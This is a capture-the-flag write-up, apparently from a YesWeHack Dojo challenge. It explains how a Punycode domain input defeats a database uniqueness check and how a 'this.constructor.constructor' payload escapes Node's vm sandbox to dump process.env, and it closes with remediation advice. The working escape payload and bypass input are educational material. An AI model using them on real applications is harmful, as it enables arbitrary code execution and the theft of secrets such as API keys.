


## Description
The node:vm module provides an environment for executing code within an isolated context, allowing developers to define a restricted set of global variables. However, due to JavaScript's prototype inheritance, an attacker can escape this sandbox by leveraging the constructor property of objects. By accessing `this.constructor.constructor`, which ultimately resolves to the global Function constructor, an attacker can execute arbitrary code outside the intended sandbox, potentially leaking sensitive data from the main process.

## Exploitation
To identify potential vulnerabilities within an application, analyzing the source code can be an effective approach. Reviewing the implementation may reveal insecure coding practices, such as improper input validation or the use of dangerous functions. Additionally, taint analysis can help track how user-controlled input flows through the application, potentially reaching vulnerable sink functions that execute arbitrary code or access restricted data. In the context of this web application, understanding how untrusted input is processed and submitted into the sandbox. This can expose opportunities for escaping it and executing code in the broader application context.


### Code Analysis
```javascript
async function main() {
    await Init_db();

    // User input
    var website = decodeURIComponent("");
    var sourcecode = decodeURIComponent("");

    if ( website.length == 0 ) {
        return {website, message:null}
    }

    try {
        // Check if website is available
        const isAvailable = await WebsiteIsAvailable(website)
        if ( !isAvailable ) {
            return {website, err:Error("This site has already been purchased by another user!")}
        }
        website = punycode.toUnicode(website)
        await BuyWebsite(website)

    } catch {
        return {website, err:Error("Invalid website given!")}
    }
    
    // Update the website for the client
    const websites = await GetAllWebsites()
    for ( let i = 0; i < websites.length; i++ ) {
        let wsite = websites[i].website
        if ( website == wsite ) {
            UpdateWebsiteContent(wsite, sourcecode)
            break
        }
    }

    // Verify the source code in a sandbox environment
    try {
        vm.runInContext(
            (await GetWebsiteCode("dójó-yeswehack.com")),
            vm.createContext({})
        );
    // Notify our infra in case we got an error
    } catch(err) {
        NotifyInfra(err)
        return {website, err:Error("Our code is broken!")}
    }

    return {website, message:"Nice catch - You're all set!"}
}
```

From the main function, we can get a general understanding of how our inputs are processed. When we click on the "Submit" button, our `website` input is passed to the `WebsiteIsAvailable` function.  The `website` input is then converted from Punycode* to Unicode if the function returns a truthy value. 

Afterwards, the converted input is used by the `BuyWebsite` function, followed by the `UpdateWebsiteContent` function, which also takes in our `sourcecode` input. This `sourcecode` input is vital as it is what is returned by the `GetWebsiteCode` function later on, which will then be fed into a Node.js VM. However, an important observation can be made here, that is, the `GetWebsiteCode` function is explicitly searching for the code tied to `dójó-yeswehack.com`. This is an indicator that we should our `website` input should somehow resolve to the same string.

Let us now take a closer look at the function implementations.

\* *Punycode is a special encoding used to represent Unicode characters using the limited ASCII character subset.* 

**WebsiteIsAvailable(website)**

```javascript
async function WebsiteIsAvailable(website) {
    return new Promise((resolve, reject) => {
        const stmt = db.prepare(`SELECT website FROM websites WHERE website = ?`);
        stmt.all([website], 
            (err, rows) => err ? reject(err) : resolve( rows.length == 0 )
        );
    });
}
```

From this function, we can determine that in order for the function to return a truthy value, our `website` input must be a unique entry in their database.

**BuyWebsite(website), UpdateWebsiteContent(website, code), GetWebsiteCode(website)**

```javascript
async function BuyWebsite(website) {
    return new Promise((resolve, reject) => {
        const stmt = db.prepare(`INSERT INTO websites(website) VALUES(?)`);
        stmt.run([website],
            (err) => err ? reject(err) : resolve()
        );
    });
}

async function UpdateWebsiteContent(website, code) {
    return new Promise((resolve, reject) => {
        const stmt = db.prepare(`UPDATE websites SET code = ? WHERE website = ?`);
        stmt.run([code, website],
            (err) => err ? reject(err) : resolve()
        );
    });
}

async function GetWebsiteCode(website) {
     return new Promise((resolve, reject) => {
        const stmt = db.prepare(`SELECT code FROM websites WHERE website = ? LIMIT 1`);
        stmt.get([website], 
            (err, rows) => err ? reject(err) : resolve(rows.code)
        );
    });
}
```

These functions adds our `website` input into the database, updates JavaScript code to be executed within the Node.js VM associated with the added website stored within our `sourcecode` input, and retrieves the code respectively.

### Planning the Attack

So what is our goal here? Ideally, it would be to make it all the way to the line in main:

```javascript
return {website, message:"Nice catch - You're all set!"}
```

and attempt to leak out the environment variables. In JavaScript, we typically read environment variables by accessing `process.env`.

But what should our input variables be? We have previously concluded that our `website` input should resolve to `dójó-yeswehack.com`, however, simply inputting the string as it is will return us an error:



If we review the source code and look at how the database is initalised, we can observe that the entry already exists prior to our submission:

```javascript
async function Init_db() {
    return new Promise((resolve, reject) => {
        db.exec(`
            CREATE TABLE IF NOT EXISTS websites (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                website TEXT NOT NULL,
                code TEXT
            );
            INSERT INTO websites (website, code) VALUES
                ('dójó-yeswehack.com', '// Code in dev'),
                ('dojo-yeswehack.com', '// Code in dev')
        `, (err) => err ? reject(err) : resolve());
    });
}
```

Therefore, we need our `website` input to fulfill the following conditions:
1. be unique to the database when it is passed as an argument to the `WebsiteIsAvailable` function
2. resolve to `dójó-yeswehack.com` when it is passed to the `BuyWebsite` function

With punycode, this can be made possible. By leveraging a Unicode to Punycode converter, we can determine that our input should be: `xn--dj-yeswehack-0hbb.com`. The string "xn--dj-yeswehack-0hbb.com" is a unique entry to the database when fulfilling our first condition, and after being converted from Punycode back to Unicode prior to the execution of the `BuyWebsite` function, it is transformed back to "dójó-yeswehack.com", fulfilling our second condition.

Now that we know what our `website` input should be, we need to figure out a payload for the `sourcecode` input. When the Node.js VM is run, it is provided an empty context `{}`, and we somehow need to leak the caller's environment variable into the VM.

In JavaScript, every object has a constructor, and that constructor has its own constructor, which is the global Function constructor. The global Function constructor can be used to create a function instance using a string input as the function body, similar to eval().

```javascript
console.log(({}).constructor); // [Function: Object]
console.log(({}).constructor.constructor); // [Function: Function]
console.log(({}).constructor.constructor("return 1+1")()); // 2
```

Going back to the source code, we can observe that we are not really able to manipulate the contents of the `message` nor `err` variables since they are hardcoded to *"Nice catch - You're all set!"* and *"Our code is broken!"* respectively, hence we have to try alternate methods of displaying the contents of the environment variables.

## PoC
Now, piecing together all the information, we know that our `website` input should be `xn--dj-yeswehack-0hbb.com` and we have a way to access the global context outside the Node.js VM. We can attempt to console.log out the environment variables by supplying the `sourcecode` input with the string `(this.constructor.constructor("console.log(process.env)"))()`. The environment variables, containing our FLAG, were then exposed.



**FLAG: `FLAG{Y0u_ju5t_h4v3_t0_dive_d33p}`**

## Risk
An attacker could expose environment variables, code variables and more, which could hold sensitive information such as API keys.

## Remediation
The following steps could be taken to mitigate/eradicate the vulnerabilities:
- convert the Punycode `website` input to Unicode prior to calling the `WebsiteIsAvailable` function to ensure that website availability is implemented properly
- sanitise the `sourcecode` input to prevent accessing the global constructor, the primary flaw of the current system leading to arbitrary code execution outside of the Node.js VM's context

It is worth mentioning that the node:vm module's documentation explicitly mentions the following:
> "The node:vm module is not a security mechanism. Do not use it to run untrusted code."

Thus, greater emphasis should be placed on the sanitisation of the `sourcecode` input.

